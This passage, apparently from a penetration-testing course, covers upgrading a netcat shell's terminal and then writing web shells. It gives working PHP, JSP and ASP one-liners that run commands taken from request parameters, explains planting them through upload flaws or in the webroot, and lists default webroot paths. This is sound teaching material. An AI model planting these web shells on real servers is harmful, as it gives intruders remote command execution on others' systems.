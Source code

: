 Types of Shells

```shell
www-data@remotehost$ export TERM=xterm-256color

www-data@remotehost$ stty rows 67 columns 318
```

Once we do that, we should have a `netcat` shell that uses the terminal's full features, just like an SSH connection.

___

## Web Shell

The final type of shell we have is a `Web Shell`. A `Web Shell` is typically a web script, i.e., `PHP` or `ASPX`, that accepts our command through HTTP request parameters such as `GET` or `POST` request parameters, executes our command, and prints its output back on the web page.

#### Writing a Web Shell

First of all, we need to write our web shell that would take our command through a `GET` request, execute it, and print its output back. A web shell script is typically a one-liner that is very short and can be memorized easily. The following are some common short web shell scripts for common web languages:

Code: php

```php
<?php system($_REQUEST["cmd"]); ?>
```

Code: jsp

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

Code: asp

```asp
<% eval request("cmd") %>
```

___

#### Uploading a Web Shell

Once we have our web shell, we need to place our web shell script into the remote host's web directory (webroot) to execute the script through the web browser. This can be through a vulnerability in an upload feature, which would allow us to write one of our shells to a file, i.e. `shell.php` and upload it, and then access our uploaded file to execute commands.

However, if we only have remote command execution through an exploit, we can write our shell directly to the webroot to access it over the web. So, the first step is to identify where the webroot is. The following are the default webroots for common web servers:

| Web Server | Default Webroot |
| --- | --- |
| `Apache` | /var/www/html/ |
| `Nginx` | /usr/local/nginx/html/ |
| `IIS` | c:\\inetpub\\wwwroot\\ |
| `XAMPP` | C:\\xampp\\htdocs\\ |
